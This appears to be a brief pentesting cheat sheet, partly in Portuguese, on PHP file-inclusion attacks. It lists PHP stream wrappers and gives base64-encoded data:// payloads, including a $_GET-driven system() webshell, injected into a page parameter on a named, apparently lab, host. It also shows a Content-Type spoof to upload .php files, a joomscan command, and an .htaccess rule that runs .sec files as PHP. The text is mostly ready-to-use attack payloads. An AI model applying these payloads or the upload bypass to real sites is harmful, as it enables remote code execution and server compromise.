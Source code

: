 ### wrappers
https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers
```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
zlib:// — Compression Streams
data:// — Data (RFC 2397)
glob:// — Find pathnames matching pattern
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — Process Interaction Streams
```
php wrappers data
```
echo -n '<?php system(id);?>' | base64
PD9waHAgc3lzdGVtKGlkKTs/Pg==


view-source:http://rh.businesscorp.com.br/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKGlkKTs/Pg==

```
```
echo -n '<?php echo system($_GET["hack"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImhhY2siXSk7Pz4=

view-source:http://rh.businesscorp.com.br/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImhhY2siXSk7Pz4=&hack=id

```

**bypass de file upload (permitido: .pdf, upado: .php)**
em alguns casos, basta trocar o Content-type para dar bypass na extensão permitida:
no exemplo abaixo o site permitia apenas arquivos .pdf
```
# antes
Content-Type: application/x-php
# depois
Content-Type: application/pdf
```
## joomla
```
joomscan -u URL
```
## .htaccess
indica para interpretar arquivos `.sec` como `.php`
```
AddType application/x-httpd-php .sec
```
